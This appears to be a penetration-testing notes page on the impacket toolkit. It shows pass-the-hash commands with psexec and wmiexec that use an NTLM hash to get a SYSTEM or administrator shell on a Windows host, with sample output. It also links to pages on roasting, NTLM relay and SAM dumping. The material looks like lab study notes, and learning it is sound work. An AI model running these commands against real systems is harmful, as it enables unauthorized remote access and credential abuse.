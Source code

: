 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# impacket

## Pass-the-Hash

{% tabs %}
{% tab title="psexec" %}
`psexec` uploads a service executable to a writable share, registers it as a service, and starts it—this requires write access to a share. If no argument is specified at the end of the command, it runs `cmd.exe` by default giving us a `SYSTEM` shell:

{% code overflow="wrap" %}
```bash
# SYSTEM shell
$ impacket-psexec -hashes :7a38310ea6f0027ee955abed1762964b Administrator@192.168.233.212
...
C:\Windows\system32> whoami
nt authority\system

# Specify a command
$ impacket-psexec -hashes :7a38310ea6f0027ee955abed1762964b Administrator@192.168.233.212 <command>
```
{% endcode %}
{% endtab %}

{% tab title="wmiexec" %}
`wmiexec` uses **Windows Management Instrumentation (WMI)** to execute commands remotely without needing to upload files or write to shares (stealthier and faster). If no argument is specified at the end of the command, it runs `cmd.exe` by default giving us a user shell:

{% code overflow="wrap" %}
```bash
# Administrator shell
$ impacket-wmiexec -hashes :7a38310ea6f0027ee955abed1762964b Administrator@192.168.233.212
...
C:\>whoami
files02\administrator
```
{% endcode %}
{% endtab %}
{% endtabs %}

## AS-REPRoasting

See how to use `impacket-GetNPUsers` [here](../attacks/as-reproasting.md#windows).

## Kerberoasting

See how to use `impacket-GetUserSPNs` [here](../attacks/kerberoasting.md#attack).

## NTMLv2 Relay

See how to use `impacket-ntlmrelayx` [here](../attacks/ntlmv2.md#ntmlv2-relay).

## Local SAM Dump

See how to use `impacket-secretsdump` [here](impacket.md#local-sam-dump).
